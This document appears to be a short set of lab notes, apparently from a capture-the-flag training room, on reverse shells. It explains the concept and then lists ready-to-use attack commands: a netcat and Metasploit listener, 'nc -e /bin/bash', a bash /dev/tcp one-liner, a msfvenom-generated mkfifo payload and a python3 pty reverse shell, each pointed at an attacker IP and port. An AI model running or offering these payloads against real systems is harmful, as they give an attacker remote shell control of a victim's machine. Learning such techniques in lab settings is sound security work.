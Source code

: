 A reverse shell, also known as a remote shell or “connect-back shell,” takes advantage of the target system’s vulnerabilities to initiate a shell session and then access the victim’s computer. The goal is to offer the attacker machine a shell instead of my machine requesting it from the target which would be much easier to evade firewalls.
# Useful Commands:
## On the Attacker machine

To start a netcat listener we use  the following command

```bash
sudo nc -lvnp <port-number>
```

or we can use the `exploit/multi/handler` module which is like socat and netcat, used to receive reverse shells, It's also the only way to interact with a meterpreter shell, and is the easiest way to handle staged payloads, use the following Metasploit command to use the module:

```msfconsole
use exploit/multi/handler
```
## On the target machine

To connect to a listener and offer it a shell we can use this nc command:

```bash
nc -e /bin/bash ip_here port_here
```

Or we can use:

```bash
 #!/bin/bash  
 bash -i >& /dev/tcp/10.2.54.112/4444 0>&1
```

 or we can use msfvenom to generate a payload, noting that the syntax should be in this format `msfvenom -p <PAYLOAD> <OPTIONS>`, and the naming convention for the payload should be like this `<OS>/<arch>/<payload>`.:

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
```

 This would be the generated payload after using the previous command: 

```bash
mkfifo /tmp/ttlrs; nc 10.2.54.112 4444 0</tmp/ttlrs | /bin/sh >/tmp/ttlrs 2>&1; rm /tmp/ttlrs
```

 or we can use this payload which uses python3 and is very useful and handy reverse shell:

```bash
export RHOST="10.2.54.112";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```
# Extra:

**Important Note :** 
This note was taken from the network services - Telnet room:

The netcat reverse shell will not close target-side after you close it locally
so the program will be blocked (hanging).
The python3 shell is a lot smarter, and it will notice when it's disconnected
and stop the process.
After it stopped, it means the program is ready for the next command.

Big Thanks for Edu